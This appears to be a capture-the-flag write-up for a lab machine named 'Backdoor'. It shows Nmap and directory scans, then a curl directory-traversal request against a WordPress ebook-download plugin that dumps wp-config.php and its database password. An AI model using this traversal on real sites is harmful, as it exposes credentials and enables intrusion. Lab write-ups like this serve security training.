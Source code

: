 # Backdoor

- Target Machine: 10.10.11.125

## Enumeration

### Nmap scan
```log
Nmap scan report for 10.10.11.125
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory scan

```log
10.10.11.125/
    /wp-content/
        /plugins
        /themes
        /uploads
        /upgrade
    /wp-admin/
    /wp-includes/
```

-------------

## Foothold

Looking through the found directories, we find that there's a plugin named `ebook-downloader` installed on this webserver, using version `1.1` (found in `/wp-content/plugins/ebook-downloader/readme.txt`).

Searching on ExploitDB, we can easily find a Directory Traversal vulnerability for this plugin version (for [more info](https://www.exploit-db.com/exploits/39575)). We can now use this PoC to explore the victim machine using cURL.

```bash
[exyss@exyss Backdoor]$ curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

[...]

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```